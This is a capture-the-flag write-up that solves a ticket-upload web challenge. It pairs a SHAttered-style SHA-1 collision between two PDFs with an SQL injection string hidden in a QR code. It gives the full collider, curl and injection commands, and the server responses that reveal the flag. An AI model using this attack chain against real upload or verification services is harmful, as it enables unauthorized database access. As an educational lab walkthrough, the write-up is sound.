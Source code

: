 A web challenge without a URL? This is weird. So let's download the code attached and check what's inside.

The file README.md gives us a hint, how to use the code. The API allows us uploading and verifying a ticket. Tickets need to be in PDF format and contain a valid GUID in QR code. We also see that `Security: Yes` so this probably be a hard (maybe an impossible) task to break ;-)

Let's check where the flag is hidden which will give us some information of what we need to do in order to get it. The flag is hidden in the database as code of `'admin-needs-no-hash'` hash (`db.ExecuteAsync($"INSERT INTO Tickets (id, code, hash) VALUES (1, '{flag}', 'admin-needs-no-hash')");`).

So let's dive deeper into the code attached. There are two things that need to be noticed in the code. These are:
1. usage of SHA-1 (`sha1.ComputeHash(memoryStream);`),
2. SQL injection (`QueryFirstOrDefaultAsync($"SELECT * FROM Tickets WHERE code like '{code}'");`).

To use the SQL injection we need to include the exploit in the QR code. Maybe we could just use the QR code with some SQL injection string to obtain the flag? Unfortunately the API checks if we provide a valid GUID (`(!Guid.TryParse(code, out var result))`) and any SQL injection string definitely is not one. What hope do we have in this situation? We need to take a step back.

How it is verified if a previously uploaded ticket is in the database? We notice that the GUID itself is not checked, but a SHA-1 hash of the PDF file is calculated (`var existingHash = await db.QueryFirstOrDefaultAsync<string>($"SELECT * FROM Tickets WHERE hash like '{hash}'");`) and compared (`if (existingHash is null)`). After noticing the SHA-1 is used we visit a great set of all known hash collisions and exploitations: https://github.com/corkami/collisions (you should definitely bookmark this for upcoming CTFs). Let's check if there is anything interesting for us. 

We see there is a known collision attack on PDFs with SHA-1 called SHAttered (shattered.io). This attack will give the same SHA-1 hash for two PDF files with different content of our choice, using a pair of precomputed headers (prologues). As we need to use PDFs in the task the attack seems a perfect choice.

Diving deeper in the repository we find a tool to generate two different PDF files with the same SHA-1 hash: https://github.com/nneonneo/sha1collider Let's download the tool and use it. Open Kali Linux (or other Unix system of your choice) and download the Python script using the terminal:
> $ wget https://raw.githubusercontent.com/nneonneo/sha1collider/master/collide.py

Now let's generate one GUID using terminal or an online tool, e.g.: 
> c1e8c384-ab92-4f07-a08a-4e665ba46c3c

Input files for the collider script need to be in PDF format. We'll use the CyberChef tool (The Cyber Swiss Army Knife) to generate QR code with our content, and export it as PDF (if you don't know the tool already, you should definitely bookmark it for future uses https://gchq.github.io/CyberChef/).

As we want to inject a code into `SELECT * FROM Tickets WHERE code like '{code}'` query, our SQL injection will look as follows:
> ' OR hash = 'admin-needs-no-hash

If you don't know how to use the CyberChef, here are links for all already set as needed to generate QR codes with:
- GUID
https://gchq.github.io/CyberChef/#recipe=Generate_QR_Code('PDF',5,4,'Medium')&input=YzFlOGMzODQtYWI5Mi00ZjA3LWEwOGEtNGU2NjViYTQ2YzNj
- SQL injection
https://gchq.github.io/CyberChef/#recipe=Generate_QR_Code('PDF',5,4,'Medium')&input=JyBPUiBoYXNoID0gJ2FkbWluLW5lZWRzLW5vLWhhc2g

Save both files (as e.g. `download-guid.pdf` and `download-sqli.pdf`) in the same place as the script, and using it generate files with SHA-1 hash collision:

> $ python3 collide.py download-guid.pdf download-sqli.pdf

We can check that the files have different content and the same SHA-1 hash. To do this use the following commands in terminal:

> $ diff out-download-guid.pdf out-download-sqli.pdf  
> Binary files out-download-guid.pdf and out-download-sqli.pdf differ  
> $ sha1sum out-download-guid.pdf                
> ab55b82efe507589bc582a23661868edf92ba804  out-download-guid.pdf  
> $ sha1sum out-download-sqli.pdf              
> ab55b82efe507589bc582a23661868edf92ba804  out-download-sqli.pdf  
   
Now let's upload the file with GUID.

> $ curl -X POST -F "file=@./out-download-guid.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/upload

We get an error and if we check the file locally we see that it's corrupted (note: it may not be in your case). What can we do about that? Reading the collider description once more we see an additional option:

> If the resulting PDFs don't work for you (e.g. they look corrupt, images have artifacts, etc.), try `--progressive` mode.

Let's generate the files again, this time using the additional option:

> $ python3 collide.py --progressive download-guid.pdf download-sqli.pdf

Now let's upload the file with GUID. This time the upload is succesfull.

Now let's verify the uploaded file:

> $ curl -X POST -F "file=@./out-download-guid.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/verify  
> {"id":2,"code":"c1e8c384-ab92-4f07-a08a-4e665ba46c3c","hash":"1369cd0fe2fc0dfccfbc3a14b90f776dfa77bbab"}  

And the final step: let's verify the second file - the one with SHA-1 hash collision which contains the SQL injection:

> curl -X POST -F "file=@./out-download-sqli.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/verify  
> {"id":1,"code":"1753c{dizz_are_not_forged_if_they_have_the_same_hasshhh}","hash":"admin-needs-no-hash"}   

Voilà! The flag is ours.
